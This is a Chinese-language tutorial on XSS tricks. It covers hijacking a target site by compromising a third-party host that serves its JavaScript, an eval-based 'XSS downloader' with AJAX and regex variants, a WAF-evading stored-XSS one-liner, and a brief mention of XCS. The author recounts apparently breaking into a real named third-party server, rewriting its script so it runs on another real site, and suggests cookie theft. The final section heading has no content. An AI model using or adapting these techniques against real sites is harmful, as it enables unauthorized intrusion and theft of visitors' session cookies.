 # XSS技巧

## 01. 前言

遗留的问题

```
问1：只能更改IP么？
答1：不是，这里只是一个例子，大家需要发散思维。Referer User-Agent Cookie 等都可以的。
问2：我一个站也是http头部获取用户信息地方存在注入，可否xss？
答2：存在注入说明你把用户信息放到数据库里了，如果不显示前/后台显现用户信息，则不存在XSS。
```

## 02. 第三方劫持 (外调J/C)
本方法是我看长短短贴代码时知晓的，这篇文章我只是把这个攻击手法整理了出来，来说明这个漏洞，这个攻击手法并不是我发现的，我也不是太清楚是谁。“第三方劫持”就是把资源域的服务器的权限拿下，替换相关资源，采用‘迂回式’的渗透方式。

** PS ** ：J/C指的是javascript、css，其实还包括flash、etc、html等等，只是这个不经常使用而已，所以就不说了。

从字面上大家也可以猜出来，这是种什么攻击手法。名字里的"外调"不是从目标网站上插入新的J/C。而是在目标网站上找到不是本站的J/C。然后渗透那个网站，重写J/C。来达到渗透目标网站。

可是要怎么找到非本站的J/C呢？！不要担心， “长短短”已经写好相关的代码了，获取非本站的J/C。

```
for(var i=0,tags=document.querySelectorAll('iframe[src],frame[src],script[src],link[rel=stylesheet],object[data],embed[src]'),tag;tag=tags[i];i++){
  var a = document.createElement('a');
  a.href = tag.src||tag.href||tag.data;
  if(a.hostname!=location.hostname){
    console.warn(location.hostname+' 发现第三方资源['+tag.localName+']:'+a.href);
  }
}
```

把这段输入在F12“审查元素”里”控制台”里，回车就OK。

OK，原理说完了。我们来个实例。

我们在http://www.zj4000.com/ 网站上使用上面的代码，获取到，其中有个www.xss8.pw的js。

![](/attackUsers/xss/image/xss-33.png)

那么我就渗透他试试，20分钟后…….好了，渗透完了。我们现在来重写JS，现在我们先测试下能不能用，我先在1.js里写上`alert(&#039;xss&#039;);`

![](/attackUsers/xss/image/xss-34.png)

现在，我们再来看看 www.zj4000.com 怎么样了。

![](/attackUsers/xss/image/xss-35.png)

看来，已经被成功调用了。我这里没有用css来说，因为js比较规范点，而且用css来实现我这上面的功能，同理SWF也可以实现上面的功能。我相信大家都会了，不需要我再多说什么了。

现在你已经掌握了一个可随时变化的储蓄xss，我们可以自己写个脚本，来获取目标的cookies。

这些我就不说了，我只是把这门冷门但是比较有潜力的攻击手法和大家说下。这个攻击手法比较有局限性，只要网站有着可以实现攻击环境， 那么的危害将会非常大。

想继续了解的可以看看黑哥写的WEBsec2-public.ppt

## 03 XSS downloader（XSS下载器）
此方法是由cnn4ry在《XSS跨站脚本攻击剖析与防御》里提起过。

这个技术其实就是把反射和储蓄结合起来，把核心代码写在网站上，然后以XSS触发并调用代码，实现攻击。

在《XSS跨转脚本攻击剖析与防御》里的代码不太正确，没有使用onreadystatechange的readyState来判断是否请求完成，也没有用status判断页面是否存在。导致没符合这几个条件的情况下就输出了，此时内容是空的，所以不会成功，我就自己写了一个ajax获取的。

下面是代码

```html
<html>
    <head>
        <title>ajax</title>
        <meta http-equiv="content-type" content="text/html;chaset=utf-8" />
    </head>
    
    <boby>
        <script>
            var xmlhttp;
            var request_text;
            if(window.XMLHttpRequest)
            {
                xmlhttp = new XMLHttpRequest();
            }
            else
            {
                xmlhttp = new ActiveXObject("Microsoft.XMLHTTP");
            }
            xmlhttp.onreadystatechange=function()
                                       {
                             if(xmlhttp.readyState==4 &&xmlhttp.status==200)
                             {
                                 request_text=xmlhttp.responseText;
                                 var a = request_text.indexOf("woaini")+6;
                                 var b = request_text.indexOf("niaiwo");
                                 eval(request_text.substring(a,b));
                             }
                                       }
            xmlhttp.open("POST","ajax.php","true");
            xmlhttp.send();
        </script>
    </boby>
</html>
```

Ajax.php：

```
12345648745465465474woainialert('xss')niaiwoasd5165484613ejkasoidoaid\
```

这时，当你打开ajax.html，就会弹出对话框。如图：

![](/attackUsers/xss/image/xss-36.png)

现在我来说说代码的大致意思

ajax.html它的主要功能就是获取ajax.php里在woaini字符串和niaiwo之间的字符串，并把获取的字符串用eval的方式运行，

Ajax.php(可以为txt，或者html等等，不要太在意是php后缀)没什么主要的功能，但是他是这个技巧的核心，eval就是运行它里面的代码。

整个内容，你可以写很多没有用的字符串，但是eval运行的代码，必须是在woaini和niaiwo之间，切记！

因为篇幅有限，还有一种方式，我就不细说，说出原理 大家也因该明白了。

假设网站的留言板存在反射XSS，我想利用的话，我可以构造为on事件，或者伪协议(javascript:)来运行下面的代码

```
eval(document.boby.innerHTML.substring(document.boby.innerHTML.indexOf('woaini')+6,document.boby.innerHTML.indexOf('niaiwo')));
```

那我留言，内容为`woainialert(&#039;xss&#039;)niaiwo`，你就会发现弹出对话框了，这种方法隐蔽性强，利用方便，可以绕过很多的WAF。不一定非要用ajax来获取，也可以在本地使用`indexOf`和`substring`来完成。如果你想，你还可以使用javascript正则来获取指定内容，下面是代码：

1.html
```html
<html>
    <head>
        <title>ajax+正则匹配</title>
        <meta http-equiv="content-type" content="text/html;chaset=utf-8" />
    </head>
    
    <boby>
        <script>
            var xmlhttp;
            var request_text;
            if(window.XMLHttpRequest)
            {
                xmlhttp = new XMLHttpRequest();
            }
            else
            {
                xmlhttp = new ActiveXObject("Microsoft.XMLHTTP");
            }
            xmlhttp.onreadystatechange=function()
                                       {
                         if(xmlhttp.readyState==4 &&xmlhttp.status==200)
                         {
                             request_text=xmlhttp.responseText;
                             var text = request_text.match(/woaini(.*)niaiwo/i);
                             eval(text[1]);
                         }
                                       }
            xmlhttp.open("POST","ajax.php","true");
            xmlhttp.send();
        </script>
    </boby>
</html>
```

## 04. XCS
XCS就是利用浏览器来玩XSS，它的功能比普通上的XSS还要强大，因为利用浏览器协议漏洞，可以调用浏览器的API来实现下载覆盖本地文件(可以把它这个功能理解为挂马)。

XSC还可以控制浏览器的历史、设置、收藏夹等。因为之前黑哥在KCon大会上讲过了，我也就不在多说了。这是（传送门）黑哥对XCS所写的PPT，想了解的可以看看。

## 05. 页面渲染XSS



